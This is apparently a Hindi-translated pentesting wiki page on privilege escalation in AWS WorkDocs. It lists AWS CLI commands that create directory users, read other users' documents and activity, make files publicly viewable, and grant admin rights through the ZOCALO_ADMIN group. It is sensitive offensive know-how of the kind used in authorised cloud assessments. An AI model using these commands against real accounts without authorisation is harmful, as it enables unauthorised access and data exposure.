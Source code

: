 # AWS - WorkDocs Privesc

## WorkDocs

WorkDocs के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-directory-services-workdocs-enum.md" %}
[aws-directory-services-workdocs-enum.md](../aws-services/aws-directory-services-workdocs-enum.md)
{% endcontent-ref %}

### `workdocs:CreateUser`

दिए गए निर्देशित निर्देशिका में एक उपयोगकर्ता बनाएं, फिर आपको वर्कडॉक्स और एडी दोनों तक पहुंच होगी:

```bash
# Create user (created inside the AD)
aws workdocs create-user --username testingasd --given-name testingasd --surname testingasd --password <password> --email-address name@directory.domain --organization-id <directory-id>
```

### `workdocs:GetDocument`, `(workdocs:`DescribeActivities`)`

फ़ाइलों में संवेदनशील जानकारी हो सकती है, उन्हें पढ़ें:

```bash
# Get what was created in the directory
aws workdocs describe-activities --organization-id <directory-id>

# Get what each user has created
aws workdocs describe-activities --user-id "S-1-5-21-377..."

# Get file (a url to access with the content will be retreived)
aws workdocs get-document --document-id <doc-id>
```

### `workdocs:AddResourcePermissions`

यदि आपको किसी चीज़ को पढ़ने का अधिकार नहीं है, तो आप इसे सीधे प्रदान कर सकते हैं।

```bash
# Add permission so anyway can see the file
aws workdocs add-resource-permissions --resource-id <id> --principals Id=anonymous,Type=ANONYMOUS,Role=VIEWER
## This will give an id, the file will be acesible in: https://<name>.awsapps.com/workdocs/index.html#/share/document/<id>
```

### `workdocs:AddUserToGroup`

आप उपयोगकर्ता को व्यवस्थापक बना सकते हैं उसे समूह ZOCALO\_ADMIN में सेट करके। इसके लिए [https://docs.aws.amazon.com/workdocs/latest/adminguide/manage\_set\_admin.html](https://docs.aws.amazon.com/workdocs/latest/adminguide/manage\_set\_admin.html) से निर्देशों का पालन करें।

उस उपयोगकर्ता के साथ workdoc में लॉगिन करें और `/workdocs/index.html#/admin` में व्यवस्थापक पैनल तक पहुंचें।

मुझे cli से इसे करने का कोई तरीका नहीं मिला।
